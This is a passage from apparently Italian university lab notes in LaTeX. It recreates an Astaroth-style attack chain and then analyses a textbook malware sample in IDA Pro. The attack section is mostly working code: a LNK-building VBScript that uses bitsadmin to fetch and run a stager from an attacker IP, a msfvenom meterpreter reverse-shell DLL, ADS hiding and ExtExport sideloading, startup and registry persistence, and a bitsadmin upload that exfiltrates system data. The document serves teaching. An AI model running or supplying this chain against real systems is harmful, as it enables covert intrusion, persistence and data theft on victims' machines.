    \item \textbf{Infezione iniziale (Spear-phishing):} La vittima riceve un'e-mail fraudolenta molto mirata (es. finte fatture o documenti legali in formato ZIP, file LNK o HTML). Cliccando sul link o sul file, si innesca la catena.
    \item \textbf{Approccio "Living-off-the-Land" (LotL):} Per scaricarsi ed eseguirsi senza farsi notare, il malware sfrutta solo strumenti di sistema di Windows preinstallati e pienamente legittimi. Inizialmente usava WMIC per eseguire script; nelle varianti più recenti (2020) abusa dello strumento ExtExport.exe (legato a Internet Explorer) per caricare i propri moduli.
    \item \textbf{Occultamento nei file di sistema:} I payload scaricati non vengono salvati normalmente, ma nascosti all'interno degli Alternate Data Streams (ADS) di file come desktop.ini. In questo modo, i dati malevoli risultano del tutto invisibili da Esplora File.
    \item \textbf{Furto e manipolazione:} Una volta iniettato silenziosamente nella memoria, Astaroth ruba le password salvate sui browser, le password delle e-mail, registra i tasti premuti e permette all'attaccante di visualizzare e manipolare la navigazione web, sovrapponendo finestre false al browser quando l'utente visita il sito della propria banca. Le configurazioni di comando e controllo (C2) vengono talvolta nascoste in testi cifrati.
\end{enumerate}

Per questo laboratorio, vengono usate una macchina Windows vittima e una macchina Linux attaccante.

\section{Deploying Astaroth}
Nel primo passaggio vediamo come si è implementato il malware nella macchina vittima Windows. Il nostro focus non si concentra però sulla consegna del malware stesso, bensì osservare i suoi effetti e come si riesce ad ottenere il controllo della macchina. In questo senso, assumiamo che il primo step sia quello di creare un file .VBScript per la generazione di un file .lnk, che verrà poi utilizzato per l'attacco.

Ai fini di semplicità, viene scaricato il file .vbs aprendo un server nella macchina attaccante Linux:

\begin{lstlisting}[language=Bash]
sudo python3 -m http.server 8080
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../5.CyberThreatIntelligence/img/server_http.png}
  \caption{Server HTTP in ascolto}
\end{figure}

Cliccando questo file, avviene l'eseguibile. Il file .vbs contiene il seguente codice:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../5.CyberThreatIntelligence/img/clickme_generation.png}
  \caption{Generazione del link clickme}
\end{figure}

\begin{lstlisting}[language=VBScript]
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "clickme.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\Windows\System32\cmd.exe"
oLink.Arguments = "/c bitsadmin /transfer mystager /priority FOREGROUND http://192.168.159.132:8080/stager.cmd C:\Users\Public\Libraries\stager.cmd & call C:\Users\Public\Libraries\stager.cmd & del C:\Users\Public\Libraries\stager.cmd"
oLink.Save
\end{lstlisting}

Possiamo osservare che:
\begin{enumerate}
    \item In Windows, ogni componente viene vista come un oggetto. In questo caso, tramite la visione ad oggetti, stiamo dando l'aspetto legittimo a un collegamento a una shell, chiamato clickme, a cui viene passato come parametro un comando a perfetta insaputa della vittima.
    \item Il comando richiama l'eseguibile bitsadmin. Questo è il primo LOLBin che verrà utilizzato. Questo è un servizio di sistema che gestisce il download e l'upload di file in background, come ad esempio aggiornamenti Windows. In questo caso, però, viene richiamato un file stager, che utilizzeremo più tardi.
\end{enumerate}

Il prossimo passaggio è quello di creare il payload. In questo caso scegliamo meterpreter, una reverse shell che funziona su windows, da cui possiamo dare successivamente altri comandi.

\begin{lstlisting}[language=Bash]
# ottenere l'indirizzo ip della macchina attaccante
ip a
# usarlo come parametro per la creazione del payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.159.132 LPORT=4444 -f dll -o payload.dll
\end{lstlisting}

Successivamente, va configurato il file stager. Questo file è il cuore pulsante dell'attacco. Al suo avvio, avvengono quattro azioni:
\begin{enumerate}
    \item Viene scaricato, sempre con l'uso di bitsadmin, il payload appena generato tramite metasploit. Viene inserito all'interno della cartella \texttt{C:\textbackslash Users\textbackslash Public\textbackslash Libraries} e denominato \texttt{sqlite3.dll}.
    \item Viene generato un nuovo oggetto Wscript.shell, in questo caso però viene effettuato il side-loading del payload rinominato precedentemente. 
    \item Viene eseguito il secondo LOLBin abusato in questo attacco, ovvero ExtExport, un'utilità all'interno di Internet Explorer che effettua sideloading di specifici file binari, tra cui \texttt{sqlite3.dll}. In questo caso, però, viene effettuato il side-loading di un binario malevolo. Come parametro viene indicato il percorso in cui è situato il binario, seguito da due stringhe arbitrarie.
    \item Il tutto viene inserito ed eseguito all'interno di un Alternative Data Stream. Questi sono attributi aggiuntivi dei file, non visibili agli utenti, che possono memorizzare dati arbitrari per nascondere file da rilevamenti. In questo caso, il tutto viene occultato come se fosse un ADS di desktop.ini, all'interno del percorso \texttt{C:\textbackslash Users\textbackslash Public\textbackslash}.
\end{enumerate}

\begin{lstlisting}[language=command.com]
@echo off

setlocal enabledelayedexpansion

set PATH_LAUNCHER_ADS=C:\Users\Public\desktop.ini:launcher.vbs


start /b bitsadmin /transfer payload /priority FOREGROUND http://192.168.159.132:8080/payload.dll C:\Users\Public\Libraries\sqlite3.dll 



rem Call "C:\Program Files (x86)\Internet Explorer\Extexport.exe" from this script.
rem As first parameter, use the path "C:\Users\Public\Libraries".
rem As second and third parameters, use two random strings (such as "bla bla").

echo Dim objShell > %PATH_LAUNCHER_ADS%
echo Set objShell = WScript.CreateObject("WScript.Shell") >> %PATH_LAUNCHER_ADS%
echo Set oExec = objShell.Exec("C:\\Program Files (x86)\\Internet Explorer\\ExtExport.exe C:\\Users\\Public\\Libraries bla1 bla2") >> %PATH_LAUNCHER_ADS%
echo Set objShell = Nothing >> %PATH_LAUNCHER_ADS%


rem This will execute the hidden launcher from the ADS
cscript "%PATH_LAUNCHER_ADS%"
\end{lstlisting}

Una volta eseguito il tutto, possiamo osservare nel percorso \texttt{C:\textbackslash User\textbackslash Public} la creazione dell'ADS.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../5.CyberThreatIntelligence/img/ads_working.png}
  \caption{ADS in esecuzione}
\end{figure}

Infine, non resta altro che aprire un listener di meterpreter nella macchina attaccante tramite Metasploit e prendere il controllo della macchina vittima.

\begin{lstlisting}[language=Bash]
msfconsole
(...)
msf > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.159.132
LHOST => 192.168.159.132
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > exploit
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../5.CyberThreatIntelligence/img/msfconsole_working.png}
  \caption{Connessione meterpreter stabilita}
\end{figure}

\section{ATT\&CK}

La catena di attacco Astaroth copre svariate tattiche e tecniche classificate dal framework MITRE ATT\&CK. Vengono sottolineati quelli riscontrati all'interno dell'attacco implementato in questo laboratorio.

\begin{itemize}
    \item \textbf{Initial Access (Accesso Iniziale):}
    \begin{itemize}
        \item \underline{\textbf{T1192 - Spearphishing Link / T1023 - Shortcut Modification}}: Uso di email con link fasulli che portano a file LNK (collegamenti) modificati per lanciare comandi dannosi.
    \end{itemize}

    \item \textbf{Execution:}
    \begin{itemize}
        \item \underline{\textbf{T1047 - Windows Management Instrumentation (WMI):}} Uso iniziale di WMIC per forzare il download di script invisibili (nel punto 5.3).
        \item \textbf{T1220 - XSL Script Processing / T1064 - Scripting:} Esecuzione di JavaScript offuscato sfruttato per orchestrare le fasi successive.
    \end{itemize}

    \item \textbf{Defense Evasion:}
    \begin{itemize}
        \item \textbf{T1027 - Obfuscated Files or Information / T1140 - Deobfuscate/Decode Files:} I moduli scaricati sono criptati (in Base64 o algoritmi XOR personalizzati) e vengono decodificati usando lo strumento legittimo di Windows Certutil.
        \item \underline{\textbf{T1564.004 - NTFS Alternate Data Streams (ADS):}} Nascondere i binari malevoli come flussi di dati secondari in file di sistema (es. desktop.ini).
        \item \underline{\textbf{T1117 - Regsvr32 / T1129 - Execution Through Module Load}}: Abuso di file di sistema come Regsvr32 o ExtExport.exe per caricare di nascosto librerie dinamiche (DLL).
        \item \textbf{T1055.012 - Process Hollowing}: Svuotare la memoria di un processo legittimo (es. userinit.exe o svchost.exe) e iniettarvi il payload malevolo finale direttamente nella memoria (in-memory injection).
    \end{itemize}

    \item \textbf{Command and Control:}
    \begin{itemize}
        \item \underline{\textbf{T1197 - BITS Jobs}}: Abuso del tool BITSadmin (Background Intelligent Transfer Service), normalmente usato da Windows per gli aggiornamenti, per scaricare furtivamente i payload dal server dell'attaccante.
    \end{itemize}
\end{itemize}

\section{Persistance}
Dopo esser riusciti a entrare nella macchina vittima, possiamo ancora sfruttare i LOLBin per creare una sessione persistente. Questo viene sempre ottenuto mediante il metodo citato prima, ma va modificato lo stager, al fine di inserire il C2 nei processi di avvio del sistema operativo della macchina vittima.

Per fare questo, bisogna:
\begin{enumerate}
    \item Inserire il processo malevolo all'interno della cartella di applicazioni scelte all'avvio.
    \item Inserire all'interno delle chiavi di registro il percorso del processo stesso.
\end{enumerate}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../5.CyberThreatIntelligence/img/Schema_completo_persistance.png}
  \caption{Schema completo per la persistance}
\end{figure}

La chiave del registro da modificare per ottenere questo è la \texttt{HKEY\_CURRENT\_USER\textbackslash Software\textbackslash Microsoft\textbackslash Windows\textbackslash CurrentVersion\textbackslash Explorer\textbackslash Shell Folders}.

Allo stager vengono quindi aggiunte le seguenti righe:

\begin{lstlisting}[language=command.com]
set PATH_LAUNCHER_BAT=C:\Users\Public\launcher.bat
echo cscript "%PATH_LAUNCHER_ADS%" > %PATH_LAUNCHER_BAT%

copy %PATH_LAUNCHER_BAT% "C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\launcher.bat"

REG ADD "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders" /f /v StartUp /t REG_SZ /d %PATH_LAUNCHER_BAT%
\end{lstlisting}

Viene creato un file batch tramite la copia dall'ADS precedentemente generato all'interno di \texttt{C:\textbackslash Users\textbackslash Public}, copiato nella cartella di processi da avviare allo startup, e aggiunta la chiave di registro ai processi di startup.

Dopo aver avviato lo stager con le stesse modalità del punto 5.1, possiamo osservare gli indicatori di compromissione per cui il processo batch è stato creato, è presente e può essere avviato insieme al sistema operativo, ottenendo così la persistenza.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../5.CyberThreatIntelligence/img/launcher_starter.png}
  \caption{Launcher inserito nello startup}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../5.CyberThreatIntelligence/img/regedit.png}
  \caption{Modifica registro di sistema}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../5.CyberThreatIntelligence/img/task_manager.png}
  \caption{Esecuzione visibile sul task manager}
\end{figure}

\section{WMI server} 

WMI permette la raccolta di informazioni per quanto riguarda lo stato della macchina. Può anche essere usato per preparare ed eseguire del codice malizioso.

Per sfruttare ciò, una volta ottenuto l'accesso alla macchina vittima, apriamo un server BITS per ricevere ed esfiltrare dati. Il server utilizzato è il \href{https://github.com/sebastianosrt/Python3-SimpleBITSServer}{\texttt{simpleBITSServer.py}}.

\begin{lstlisting}[language=Bash]
python3 SimpleBITSServer.py 4231
\end{lstlisting}

Dopodiché, sfruttando meterpreter, apriamo una reverse shell e inseriamo i due seguenti comandi:

\begin{lstlisting}[language=command.com]
(echo OS INFORMATION: & wmic os get Caption, Version, BuildNumber, InstallDate /format:csv & echo. & echo PROCESS LIST: & wmic process get Name, ProcessId, ParentProcessId, ExecutablePath /format:csv) | find /v "" > C:\Users\unina\Desktop\system_info.txt

bitsadmin /transfer test /priority HIGH /upload http://192.168.159.132:4231/system_info.txt C:\Users\unina\Desktop\system_info.txt
\end{lstlisting}

Il primo comando permette di ottenere informazioni inerenti al sistema operativo, il secondo i vari processi in esecuzione. Il tutto viene codificato per essere compatibile con Linux e inserito all'interno di un file di testo, che viene caricato al server BITS aperto.

\include{06_BasicMalware}
\chapter{Windows Malware}
In questa esercitazione vengono analizzati diversi malware, al fine di comprendere l'utilizzo di software per il reverse engineering come IDA Pro.

\section{Lab05-01.dll}

Analisi del primo malware.

\subsection{Flags}

\subsubsection{Flag 1: Indirizzo \texttt{dllMain}}
\underline{Risposta:} \textbf{1000D02E}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/flag1.png}
  \caption{Indirizzo \texttt{dllMain} in IDA Pro}
\end{figure}

\subsubsection{Flag 2: Indirizzo locazione import \texttt{gethostbyname}}
\underline{Risposta:} \textbf{100163CC}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/flag2.png}
  \caption{Locazione import \texttt{gethostbyname}}
\end{figure}

\subsubsection{Flag 3: Numero di funzioni che chiamano \texttt{gethostbyname}}
\underline{Risposta:} \textbf{9}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/flag3.png}
  \caption{Funzioni che richiamano \texttt{gethostbyname}}
\end{figure}

\subsubsection{Flag 4: Nome del dominio DNS}
\underline{Risposta:} \textbf{pics.praticalmalwareanalysis.com}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/flag4.png}
  \caption{Dominio DNS individuato}
\end{figure}

\subsubsection{Flag 5: Numero di parametri e variabili locali per subroutine \texttt{sub\_10001656}}
\underline{Risposta:} \textbf{23} (5 parametri e 18 variabili locali)

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/flag5.png}
  \caption{Parametri e variabili locali della subroutine \texttt{sub\_10001656}}
\end{figure}

\subsubsection{Flag 6: Messaggio}
\underline{Risposta:}
\begin{verbatim}
Hi,Master [%d/%d/%d %d:%d:%d]
WelCome Back...Are You Enjoying Today?

Machine UpTime  [%-.2d Days %-.2d Hours %-.2d Minutes %-.2d Seconds]
Machine IdleTime [%-.2d Days %-.2d Hours %-.2d Minutes %-.2d Seconds]

Encrypt Magic Number For This Remote Shell Session [0x%02x]
\end{verbatim}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/flag6.png}
  \caption{Messaggio del malware memorizzato nelle risorse}
\end{figure}

\subsubsection{Flag 7: Quale OS innesca il malware?}
\underline{Risposta:} \textbf{Windows}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/flag7_1.png}
  \caption{Controllo versione del sistema operativo (parte 1)}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/flag7_2.png}
  \caption{Controllo versione del sistema operativo (parte 2)}
\end{figure}

\subsection{Domande}

\subsubsection{Cosa succede se il paragone con la stringa \texttt{robotwork} ha successo?}

La stringa \texttt{robotwork} è verosimilmente un comando passato tramite un terminale avviato sulla macchina vittima, siccome la funzione è sostanzialmente un parser che confronta i caratteri.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/robotWork_compare.png}
  \caption{Confronto con la stringa \texttt{robotwork}}
\end{figure}

In caso di \texttt{jnz}, il confronto avviene con altri comandi. Se il comando è effettivamente \texttt{robotwork}, viene invece invocata una subroutine.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/robotwork_subroutine.png}
  \caption{Chiamata alla subroutine in caso di corrispondenza}
\end{figure}

La subroutine collocata a \texttt{0x100052A2} permette di monitorare lo stato di attività della macchina vittima e inviarlo all'attaccante. Vengono effettuate in breve le seguenti azioni:

\begin{enumerate}
  \item Viene creato un buffer dove allocare i dati:
\begin{lstlisting}[language=C]
char Buffer[1021];
BYTE Data[512];
memset(Buffer, 0, sizeof(Buffer));
memset(Data, 0, sizeof(Data));
\end{lstlisting}

  \item Ottiene l'accesso in lettura alla chiave del registro \texttt{HKEY\_LOCAL\_MACHINE\textbackslash SOFTWARE\textbackslash Microsoft\textbackslash Windows\textbackslash CurrentVersion} (in caso di fallimento, viene chiusa la funzione):
\begin{lstlisting}[language=C]
if ( RegOpenKeyExA(HKEY_LOCAL_MACHINE, aSoftwareMicros, 0, 0xF003Fu, &phkResult) )
  return RegCloseKey(phkResult);
\end{lstlisting}

  \item Viene analizzato dapprima il parametro \textit{WorkTime}: viene formattato e poi inviato tramite socket:
\begin{lstlisting}[language=C]
if ( !RegQueryValueExA(phkResult, aWorktime, 0, &Type, Data, &cbData) )
{
  v2 = atoi((const char *)Data);
  sprintf(Buffer, "\r\n\r\n[Robot_WorkTime :] %d\r\n\r\n", v2);
  v3 = strlen(Buffer);
  sub_100038EE(s, (int)Buffer, v3);
}
\end{lstlisting}
WorkTime è un valore personalizzato (probabilmente creato dal malware stesso) sotto la chiave: \texttt{HKLM\textbackslash SOFTWARE\textbackslash Microsoft\textbackslash Windows\textbackslash CurrentVersion\textbackslash WorkTime}.

  \item Viene analizzato poi il parametro \textit{Worktimes} allo stesso modo:
\begin{lstlisting}[language=C]
